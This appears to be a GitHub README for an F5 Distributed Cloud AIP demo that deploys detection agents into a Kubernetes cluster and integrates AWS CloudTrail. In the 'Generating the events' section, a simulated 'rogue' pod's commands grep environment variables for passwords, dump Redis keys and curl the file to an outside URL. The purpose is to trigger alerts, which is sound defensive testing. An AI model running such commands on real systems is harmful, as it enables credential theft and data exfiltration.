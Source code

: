 XC AIP Demo with CloudTrail integration
==============================
This blueprint allows you to automatically deploy AIP agents into an existing Kubernetes cluster (k3s) running across 2 nodes in UDF. Additionally this blueprint leverages AWS cloud account to configure and integrate AWS CloudTrail with AIP automatically.

What you need to do **BEFORE starting the deployment:**
-------------------------------------------------------

## Copy AIP keys and Account ID


1. Login to F5 Distributed Cloud tenant where you would like AIP to be connected to
2. Navigate to *App Infrastructure Protection* -> **YOUR ORG (mapped NS in XC)** ->*Settings* -> *Keys*
3. Copy the following values:
    - **Deployment Key**
    - **REST API Key**
    - **Organization ID**
    - **User ID**

4. Navigate to *Settings* -> *Integrations* -> *Click on "ADD AWS INTEGRATION"
5. Copy **Account ID** value

## Populate User Tags and User-data script


1. In this UDF blueprint locate **CONFIGURE ME** Ubuntu server and click **DETAILS**
2. **Documentation** page contains User Tags where you need to define 5 tags: DEPLOYMENT_KEY, API_KEY, ORG, USER and ACCOUNT. See Description on the top of the page for instructions. **Example of User Tags:**

![tags](https://github.com/f5devcentral/aip-demo-udf/blob/main/user_tags.jpg?raw=true)

## Start the deployment

Startup script will perform the following actions to integrate 3 agents (1 on each node plus 1 agent that "listens" to k8s API) and AWS CloudTrail:

 1. Gather data from env file and UDF metadata (user tags)
 2. Deploy stack using Cloudformation template
 3. Create integration on AIP side and gather External ID
 4. Update stack with AIP External ID
 5. Create CloudTrail resources in AIP

## Generating the events

There is a "rogue" pod that will be generating events. The pod uses the following commands to simulate the adversary:

```
kubectl apply -f pod.yaml
kubectl exec redis-client -- env |grep -i pass
REDISCLI_AUTH="$REDIS_PASSWORD" /usr/local/bin/redis-cli -h redis-cluster-master keys \* > my.db
curl --connect-timeout 1 -X POST -F "image=@my.db" https://f5se.com/data/db/my/1.db
```

This behavior is in line with the attacker locating redis DB and exfiltrating DB data to an arbitrary URL

## Enabling Rules

Unless **ENABLE_RULES** User Tag was specified for the deployment, it is necessary to manually enable Rules in order for the system to start generating **Alerts**

To manually enable the Rules, navigate to *Rules* and enable the following Rule Sets:

  1. Base Rule Set
  2. Docker Rule Set
  3. Cloud Trail Rule Set
  4. Kubernetes Rule Set

Additionally, under **RULE TYPE** select the following types and ensure all rules under these types are enabled:

  1. Cloud Trail
  2. File Integrity
  3. Host
  4. Kubernetes Audit
